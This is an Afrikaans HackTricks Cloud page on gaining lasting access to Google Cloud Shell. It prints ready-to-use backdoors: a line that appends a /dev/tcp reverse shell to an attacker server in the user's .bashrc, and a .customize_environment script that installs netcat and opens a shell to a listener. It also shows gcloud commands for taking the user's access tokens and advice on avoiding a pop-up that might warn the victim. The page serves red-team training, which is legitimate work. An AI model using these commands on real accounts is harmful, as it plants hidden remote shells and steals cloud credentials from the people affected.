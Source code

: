 # GCP - Cloud Shell Persistensie

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Vir meer inligting, kyk:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Volhoubare Agterdeur

[**Google Cloud Shell**](https://cloud.google.com/shell/) bied jou opdraglyn toegang tot jou wolk hulpbronne direk vanaf jou blaaier sonder enige geassosieerde koste.

Jy kan Google's Cloud Shell vanaf die **web konsole** of deur **`gcloud cloud-shell ssh`** te gebruik.

Hierdie konsole het 'n paar interessante vermoëns vir aanvallers:

1. **Enige Google gebruiker met toegang tot Google Cloud** het toegang tot 'n volledig geverifieerde Cloud Shell instansie (Diensrekeninge kan, selfs as hulle Eienaars van die org is).
2. Gesegde instansie sal **sy tuisgids vir ten minste 120 dae onderhou** as daar geen aktiwiteit plaasvind nie.
3. Daar is **geen vermoëns vir 'n organisasie om** die aktiwiteit van daardie instansie te monitor nie.

Dit beteken basies dat 'n aanvaller 'n agterdeur in die tuisgids van die gebruiker kan plaas en solank die gebruiker elke 120 dae ten minste aan die GC Shell koppel, sal die agterdeur oorleef en die aanvaller sal 'n shell kry elke keer dit uitgevoer word net deur te doen:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Daar is 'n ander lêer in die tuisgids genoem **`.customize_environment`** wat, indien dit bestaan, **uitgevoer gaan word elke keer** wanneer die gebruiker toegang tot die **cloud shell** verkry (soos in die vorige tegniek). Voeg net die vorige backdoor of een soos die volgende in om volharding te handhaaf solank die gebruiker die cloud shell "gereeld" gebruik:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Dit is belangrik om te noem dat die **eerste keer dat 'n aksie wat verifikasie vereis, uitgevoer word**, 'n pop-up magtiging venster in die gebruiker se blaaier verskyn. Hierdie venster moet aanvaar word voordat die opdrag kan loop. As 'n onverwagte pop-up verskyn, kan dit wantroue wek en moontlik die volhardingsmetode wat gebruik word, in gevaar stel.
{% endhint %}

Dit is die pop-up van die uitvoering van `gcloud projects list` vanaf die cloud shell (as aanvaller) gesien in die gebruiker se blaaiersessie:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

As die gebruiker egter aktief die cloudshell gebruik het, sal die pop-up nie verskyn nie en kan jy **tokens van die gebruiker versamel met**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Hoe die SSH-verbinding tot stand gebring word

Basies, hierdie 3 API-oproepe word gebruik:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (sal jou dwing om jou publieke sleutel wat jy plaaslik geskep het, by te voeg)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (sal jou dwing om die instansie te begin)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (sal jou die IP van die google cloud shell vertel)

Maar jy kan verdere inligting vind in [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Verwysings

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

